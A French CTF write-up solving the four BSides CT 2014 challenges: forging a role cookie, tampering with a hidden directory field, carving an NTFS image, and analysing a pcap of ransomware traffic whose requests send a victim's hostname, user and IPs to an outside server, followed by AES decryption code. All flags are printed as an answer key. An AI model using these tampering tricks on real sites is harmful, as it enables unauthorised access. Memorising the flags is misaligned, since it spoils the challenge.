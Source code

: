 # Solution du CTF BSides CT 2014

Introduction
------------

Histoire de changer un peu, je me suis tourné vers le CTF de la conférence *BSides CT (Connecticut) 2014*.  

Les fichiers du CTF ayant été [mis en ligne sur GitHub](https://github.com/SkeyeLlama/BSides-CT-2014---CTF-Challenges), il est facile de mettre en place chez soit les 4 niveaux du challenge. Vous aurez juste besoin d'un serveur web avec PHP activé et de votre boîte à outils habituelle.  

Le challenge est assez simple. Il propose deux niveaux d'exploitation web, un niveau inforensique classique et un dernier niveau d'inforensique réseau avec de la crypto.  

Level 1
-------

Comme indiqué sur *GitHub* il faut avoir dézippé les fichiers dans un dossier *chal1* à la racine du serveur web.  

Une fois le navigateur lancé à la bonne adresse on trouve une page avec le titre *"Echo Tool v0.3"* qui demande de saisir soit le mot de passe de l'administrateur, soit *guest*.  

Vu que la simple pose des fichiers permet de mettre en place le challenge on se doute qu'il n'y aura pas de SQL dans l'affaire.  

Une fois que l'on a entré *"guest"* on est invité à entrer une chaîne de caractère, laquelle est juste re-affichée dans la page.  

J'ouvre l'extension *EditThisCookie* depuis *Chrome* et remarque que 3 cookies ont été définis :  

![EditThisCookie](https://github.com/devl00p/blog/raw/master/images/editthiscookie.png)

Le cookie *role* contient un hash SHA-1 qui après recherche sur *DuckDuckGo* se révèle correspondre à *guest*.  

J'édite la valeur de ce cookie pour mettre le hash de *admin* mais je suis redirigé quand je rafraîchi la page.  

Je retente avec le hash de *administrator* et cette fois j'obtiens le flag *key{6e17f3d9348623234cbbd2dd4a900fc7}*.  

Level 2
-------

Ce second challenge est un ensemble de scripts PHP baptisé *PasteGin v1.4*.  

Un formulaire permet l'upload de fichiers mais affirme n'accepter que les fichiers avec extension *.txt*.  

L'autre formulaire permet de dresser la liste des fichiers qui ont été mis en ligne.  

Toutefois on ne voit pas immédiatement les formulaires car quand on affiche le code source HTML on trouve du Javascript obfusqué, la partie HTML est elle une coquille vide.  

C'était sans compter sur les outils de développement des navigateurs modernes : click-droit sur la page puis *"Inspecter l'élément"* permet de voir les deux formulaires qui ont été rajoutés au DOM par le javascript.  

Le second formulaire (utilisé pour lister les fichiers) attire mon attention :  

```html
<form action="list.php" method="post">
<input type="hidden" name="dir" value="./text/">
<input type="submit" name="submit" value="List Text Files">
</form>
```

Toujours via les outils de développement je modifie la valeur du champ caché *"dir"* pour mettre *"."*  

Je soumets le formulaire qui révèle alors la présence d'un fichier baptisé *topsecretkey*.  

Le fichier */chal2/topsecretkey* a le contenu *key{6fafa4aa597adac7974f11fabf2a5754}*  

Level 3
-------

On dispose d'un fichier *flash.img* qui a été compressé. Une fois décompressé on le passe à *file* qui nous indique :  

```plain
flash.img: DOS/MBR boot sector
```

Avec *ghex* (un éditeur hexadécimal) on voit les lettres *NTFS*. Une recherche sur les octets d'entête du fichier nous révèle qu'il s'agit en réalité d'une image disque *NTFS*.  

On monte le disque très facilement :  

```plain
mount -t ntfs -o ro flash.img /mnt/
```

Seulement on ne trouve qu'un fichier *IMG\_182891.png* que la morale m’empêche de poster ici (lol)  

Par conséquent j'ai préféré passer *photorec* sur l'image disque. Ce dernier retrouve des images supplémentaires : schémas de missiles et une image contenant le flag *key{3eee9d1cbd5b0062aa6b8e6398108072}*.  

Level 4
-------

On dispose d'une conversation email en PDF où un responsable demande à ce que les techniciens récupèrent ses fichiers qui ont été chiffrés par un logiciel rançonneur du type *CryptoLocker*.  

On dispose aussi d'une capture réseau au format *pcapng*. Une première lecture rapide de la capture montre des requêtes HTTP en clair et d'autres en SSL.  

J'ai décidé d'exporter la capture dans l'ancien format *pcap* (*tcpdump*) puis de la passer à la moulinette de [chaosreader](http://www.brendangregg.com/chaosreader.html) pour faciliter l'analyse.  

On remarque vite en naviguant parmi les requêtes HTTP que les infos intéressantes sont envoyées vers un script */Gh98zret.php*.  

La plupart des requêtes sont du type *Gh98zret.php?filename=Exhibit - A (1).gif&originalMD5=C699083BAF4FC584667DD8F25061C2F1* qui indique ici qu'un fichier gif a été chiffré.  

La requête et la réponse sont les suivantes :  

```plain
GET /Gh98zret.php?filename=Exhibit - A (1).gif&originalMD5=C699083BAF4FC584667DD8F25061C2F1 HTTP/1.1
Accept-Encoding: identity
Host: fatterpurse.com
Connection: close
User-Agent: CrypHI#948JJj930fjjfkdk

HTTP/1.1 200 OK
Date: Wed, 30 Jul 2014 15:38:13 GMT
Server: Apache
Vary: Accept-Encoding
Connection: close
Content-Type: text/html

<html>
...<title>Gh98zret - CrypHI#948JJj930fjjfkdk</title>
...<body>
ok
</body>
...</html>
```

Comme on disque des images chiffrés j'ai tenté de déchiffrer l'image via ce qui aurait pu être une clé dans le *User-Agent* et en testant divers algos. Mais je n'ai pas obtenu de résultats satisfaisants.  

Si on recherche les requêtes sans le mot clé *filename* on trouve d'autres informations :  

```plain
Gh98zret.php?crypt_init=1&sys=2
Gh98zret.php?crypt_init=2&sys=2
Gh98zret.php?crypt_init=3&sys=2
Gh98zret.php?crypt_init=4&sys=2
Gh98zret.php?drive_index=C&drive_label=Local Disk&sys=1
Gh98zret.php?drive_index=E&drive_label=SANDISK&sys=1
Gh98zret.php?loggedonuser=mhernandez&sys=1
Gh98zret.php?OS=Microsoft Windows XP [Version 5.1.2600]&sys=1
Gh98zret.php?&sys=1
Gh98zret.php?systemname=tpms_ceo_secret&sys=1
Gh98zret.php?victiminsideip=10.255.1.74&sys=1
Gh98zret.php?victimoutsideip=55.43.2.18&sys=1
```

Les requêtes *crypt\_init* se retrouvent dans les sessions 2020 à 2023 de *ChaosReader*. Les réponses correspondantes disposent dans le body de données encodées en base64 qui une fois décodées sont les suivantes :  

```plain
Crypt_Init - AES
Crypt_Init - CBC                                                                                                                                                                                               
IV - 00000000000000000000000000--- snip ---0000000000000000000000000000
Crypt_Init - CBC
637442eafc8399b6175621de7e94b511949e6226cc2cbf10dbe47bc46b2c1139
```

On dispose maintenant des informations nécessaires au déchiffrement des fichiers.  

J'ai commencé par le fichier texte fournit qui est le plus court :  

```plain
$ python
Python 2.7.6 (default, Nov 21 2013, 15:55:38) [GCC] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from Crypto.Cipher import AES
>>> key = '637442eafc8399b6175621de7e94b511949e6226cc2cbf10dbe47bc46b2c1139'.decode("hex_codec")
>>> C = open("sergey-contact.txt").read()
>>> mode = AES.MODE_CBC
>>> IV = "\x00" * 16
>>> decryptor = AES.new(key, mode, IV=IV)
>>> M = decryptor.decrypt(C)
>>> print M
Sergey:

650-559-2746
```

Et voici un script pour les images (si vous aimez les lolcats) :  

```python
from Crypto.Cipher import AES
import glob

key = '637442eafc8399b6175621de7e94b511949e6226cc2cbf10dbe47bc46b2c1139'.decode("hex_codec")
mode = AES.MODE_CBC
IV = "\x00" * 16

images = glob.glob("*.gif")

for fname in images:
    print "Decrypting", fname
    fdin = open(fname)
    C = fdin.read()
    fdin.close()

    decryptor = AES.new(key, mode, IV=IV)
    M = decryptor.decrypt(C)

    fdout = open("dec_{0}".format(fname), "w")
    fdout.write(M)
    fdout.close()
```

Un petit CTF amusant :)

*Published September 21 2014 at 21 01*